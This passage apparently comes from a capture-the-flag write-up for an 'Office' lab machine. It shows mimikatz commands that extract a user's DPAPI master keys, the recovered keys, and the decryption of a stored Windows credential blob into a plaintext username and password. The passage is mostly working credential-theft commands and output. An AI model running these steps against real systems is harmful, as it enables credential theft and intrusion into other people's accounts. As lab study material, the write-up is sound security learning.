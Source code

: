 Now we will extract them:

```cmd
.\mimikatz.exe "dpapi::masterkey /in:C:\Users\PPotts\appdata\roaming\microsoft\protect\S-1-5-21-1199398058-4196589450-691661856-1107\10811601-0fa9-43c2-97e5-9bef8471fc7d /rpc" "exit"
.\mimikatz.exe "dpapi::masterkey /in:C:\Users\PPotts\appdata\roaming\microsoft\protect\S-1-5-21-1199398058-4196589450-691661856-1107\191d3f9d-7959-4b4d-a520-a444853c47eb /rpc" "exit"
.\mimikatz.exe "dpapi::masterkey /in:C:\Users\PPotts\appdata\roaming\microsoft\protect\S-1-5-21-1199398058-4196589450-691661856-1107\277f5e35-0e98-4eb5-b925-1dda05522e68 /rpc" "exit"
```

```keys
3f891c81971ccacb02123a9dde170eaae918026ccc0a305b221d3582de4add84c900ae79f950132e4a70b0ef49dea6907b4f319c5dd10f60cc31cb1e3bc33024
87eedae4c65e0db47fcbc3e7e337c4cce621157863702adc224caf2eedcfbdbaadde99ec95413e18b0965dcac70344ed9848cd04f3b9491c336c4bde4d1d8166
1e8828534f4f081fa2bdd4e4fed08753cd0687cdb6ababb6916ab32a6eaa559484964fe4ce58a7c75334247957b368d1e7be02c3c80c2f854366ed7da348c4ac
```

Now we can decrypt credentials blobs:

```cmd
.\mimikatz.exe "dpapi::cred /in:C:\Users\PPotts\AppData\Roaming\Microsoft\credentials\84F1CAEEBF466550F4967858F9353FB4 /masterkey:87eedae4c65e0db47fcbc3e7e337c4cce621157863702adc224caf2eedcfbdbaadde99ec95413e18b0965dcac70344ed9848cd04f3b9491c336c4bde4d1d8166" "exit"
```

![mimikatz_result](images/Office28.png)
```
  UserName       : OFFICE\HHogan
  CredentialBlob : H4ppyFtW183#
```

New pair of creds:

OFFICE\HHogan:H4ppyFtW183#
